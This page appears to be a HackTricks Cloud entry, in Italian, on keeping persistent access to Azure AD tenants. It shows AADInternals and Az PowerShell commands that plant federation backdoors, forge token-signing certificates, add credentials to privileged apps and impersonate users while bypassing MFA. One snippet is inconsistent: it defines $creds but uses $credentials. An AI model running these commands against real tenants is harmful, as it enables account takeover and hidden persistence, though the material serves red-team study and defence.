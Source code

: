 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

Per impostazione predefinita, qualsiasi utente può registrare un'applicazione in Azure AD. Quindi puoi registrare un'applicazione (solo per il tenant target) che necessita di permessi ad alto impatto con consenso dell'amministratore (approvala se sei l'amministratore) - come inviare email per conto di un utente, gestione dei ruoli, ecc. Questo ci permetterà di **eseguire attacchi di phishing** che sarebbero molto **fruttuosi** in caso di successo.

Inoltre, potresti anche accettare quell'applicazione con il tuo utente come modo per mantenere l'accesso su di essa.

### Applications and Service Principals

Con i privilegi di Application Administrator, GA o un ruolo personalizzato con permessi microsoft.directory/applications/credentials/update, possiamo aggiungere credenziali (segreto o certificato) a un'applicazione esistente.

È possibile **prendere di mira un'applicazione con permessi elevati** o **aggiungere una nuova applicazione** con permessi elevati.

Un ruolo interessante da aggiungere all'applicazione sarebbe il **ruolo di amministratore dell'autenticazione privilegiata** in quanto consente di **reimpostare la password** degli Amministratori Globali.

Questa tecnica consente anche di **bypassare MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Per l'autenticazione basata su certificati

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federazione - Certificato di Firma del Token

Con **privilegi DA** su AD on-prem, è possibile creare e importare **nuovi certificati di firma del token** e **certificati di decrittazione del token** che hanno una validità molto lunga. Questo ci permetterà di **accedere come qualsiasi utente** il cui ImuutableID conosciamo.

**Esegui** il comando qui sotto come **DA sui server ADFS** per creare nuovi certificati (password predefinita 'AADInternals'), aggiungerli a ADFS, disabilitare il rollover automatico e riavviare il servizio:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Poi, aggiorna le informazioni del certificato con Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

Con privilegi GA su un tenant, è possibile **aggiungere un nuovo dominio** (deve essere verificato), configurare il suo tipo di autenticazione su Federato e configurare il dominio per **fidarsi di un certificato specifico** (any.sts nel comando qui sotto) e dell'emittente:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Riferimenti

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
